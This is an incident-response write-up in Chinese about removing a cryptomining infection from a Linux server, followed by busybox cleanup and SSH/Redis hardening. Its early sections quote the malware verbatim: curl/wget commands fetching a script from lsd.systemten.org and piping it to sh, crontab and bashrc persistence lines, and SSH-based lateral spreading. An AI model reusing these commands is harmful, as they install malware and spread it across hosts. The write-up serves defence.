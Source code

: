 ## 被挖矿入侵处理记录

1. 服务器一些操作后异常提示

   ````
   [1]+  完成                  ( curl -fsSL -m180 lsd.systemten.org || wget -q -T180 -O- lsd.systemten.org ) | sh > /dev/null 2>&1
   ````

   提取其中地址``lsd.systemten.org``，浏览器请求返回如下:

   ````
   export PATH=PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin mkdir -p /tmp chmod 1777 /tmp echo "*/10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen(\"http://lsd.systemten.org\").read()')|sh"|crontab - cat > /etc/crontab </dev/null 2>&1 &" & done fi for file in /home/* do if test -d file; then if [ -f file/.ssh/known_hosts ] && [ -f file/.ssh/id_rsa.pub ]; then for h in (grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL lsd.systemten.org||wget -q -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh >/dev/null 2>&1 &" & done fi fi done #
   		
   ````

2. 首先 ps、top命令异常，被篡改

   > 入nginx进程明明移动 ps-ef | grep nginx 返回确实空
   >
   > top命令展示内容也少了很多

3. 发现阿里云警告

   > 提示：挖矿程序

4. crontab中出现莫名其妙任务

   ````
   */10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh
   ````

   并且 /etc/crontab中出现
   
   ````
   SHELL=/bin/bash
   PATH=/sbin:/bin:/usr/sbin:/usr/bin
   
   */10 * * * * root (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()'||/usr/local/sbin/ea2a9852817e39)|sh
   ````
   
5. 删除以上内容后重启，发现又出现，怀疑在启动命令中隐藏东西 ``vim /etc/bashrc`` 

   ````
   ##
   (curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
   ##
   ````

   异常启动文件可能存在的目录

   ````
   /etc/rc.d/init.d/
   /etc/init.d/
   ````
   
6. 使用busybox查杀

## Busybox查杀病毒

* 安装解压工具

````
yum -y install bzip2
````

* 安装busybox

````
wget http://busybox.net/downloads/busybox-1.21.0.tar.bz2
tar -xvf busybox-1.21.0.tar.bz2
cd ./busybox-1.21.0
make defconfig
#注意，这里最好在相同操作系统的正常机器上进行静态链接
#防止动态链接还被挖矿病毒的动态库劫持，导致删除文件不成功
#如果条件不允许，第二点将会重点说明
make
make install
ln -s `pwd`/busybox /usr/bin/busybox
busybox|grep BusyBox |grep v
————————————————
版权声明：本文为CSDN博主「芽孢八叠球菌」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/u010457406/article/details/89328869
````

* 查杀异常进程

````
busybox ls -a /tmp |grep ds
...
busybox ls -a /usr/sbin |grep kerber
...
busybox ls -a /etc |grep ld.so.preload
...
busybox ls -a /usr/local/lib |grep libcry 
...
````

将上4条命令搜索出来的结果逐一精确删除，不要使用 ``rm -rf 什么什么*``方式删除，要具体名称，而且使用tab无法搜索到这些文件

* 查杀异常进程

````
busybox ps -ef | busybox grep -v grep | busybox grep 'kerberods'
busybox ps -ef | busybox grep -v grep | busybox grep 'khugepageds' 
````

### 病毒分析

````
(curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
````

````
该下载后的脚本主要操作有
1> 将指令添加到crontab中
2> kill掉同类挖矿进程
3> kill掉高好资源的其他进程
4> 下载执行主恶意程序（这个未知）
5> 横向ssh传播
````

### 安全加固

1. SSH
   ① 谨慎做免密登录
   ② 不使用默认的22端口
   ③ 禁止root登录
2. Redis
   ① 增加授权认证(requirepass参数)
   ② 尽量使用docker版本(docker pull redis)
   ③ 隐藏重要的命令

> 我的按照入侵时间点估计是因为：redis未认证漏洞

